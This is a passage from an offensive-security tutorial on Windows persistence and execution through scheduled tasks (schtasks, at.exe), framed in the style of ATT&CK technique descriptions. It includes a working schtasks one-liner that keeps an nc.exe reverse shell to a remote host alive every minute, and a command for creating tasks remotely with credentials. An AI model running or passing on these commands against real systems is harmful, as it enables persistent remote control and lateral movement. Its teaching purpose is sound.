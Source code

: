 Adversaries may use this functionality as a way to execute arbitrary code on a victim system. For example, malware may execute share modules to load additional components or features.

### scheduled-task

Utilities such as 

**at**

 and 

**schtasks**

, along with the Windows Task Scheduler, can be used to schedule programs or scripts to be executed at a date and time. A task can also be scheduled on a remote system, provided the proper authentication is met to use RPC and file and printer sharing is turned on.Scheduling a task on a remote system typically required being a member of the Administrators group on the remote system.

An adversary may use task scheduling to execute programs at system startup or on a scheduled basis for persistence, to conduct a remote Execution as part of Lateral movement, to gain SYSTEM privileges, or to run a process under the context of a specified account.

Let's create a task that keep a reverse shell alive every minute.

schtasks /create /sc minute /mo 1 /tn "Reverse shell" /tr 'c:\Users\User\Downloads/nc.exe 192.168.56.103 1337 -e cmd.exe'

![](https://2121993737-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-MRh03Vwd4nuiUi3Oje7%2F-MRhDVj4APC12TCWJPB2%2F-MRhEQK9QNp0tVKNgVBn%2FSCHTASK-nc.gif?alt=media&token=9e562315-02a3-46bc-900d-2ec81da447e2)

As we can see here creating a task can be done with a simple syntax and I demonstrated with nc.exe binary which takes also arguments!, all that was needed is to be inside the double-quotes ("") and it will take arguments with spaces.These tasks can also be created remotely. All that is needed is the user to be an administrator or have proper permissions on the Remote machine.

In the schtasks help menu we see the arguments needed after 

/create

 to create a task on a remote server. We can supply the username and password on the arguments to authenticate and create the task.

It would look something like this.

schtasks /create /s "PC-NAME" /tn "My App" /tr "PATH" /sc minute /mo 1 /u Domain\User /p password

 [If password is not supplied it will prompt asking for one]

![](https://2121993737-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-MRh03Vwd4nuiUi3Oje7%2F-MRhDVj4APC12TCWJPB2%2F-MRhEUZkWu1rQnvbkGlO%2Fimage.png?alt=media&token=39296749-aeef-4004-bce1-77ad91bde043)

### at-windows

Adversaries may abuse the at.exe utility to perform task scheduling for initial or recurring execution of malicious code. The at utility exists as an executable within Windows for scheduling tasks at a specified time and date. Using at requires that the Task Scheduler service be running, and the user to be logged on as a member of the local Administrators group.

An adversary may use at.exe in Windows environments to execute programs at system startup or on scheduled basis for persistence. At can also be abused to conduct remote Execution as part of Lateral Movement and or to run a process under the context of a specified account (such as SYSTEM).
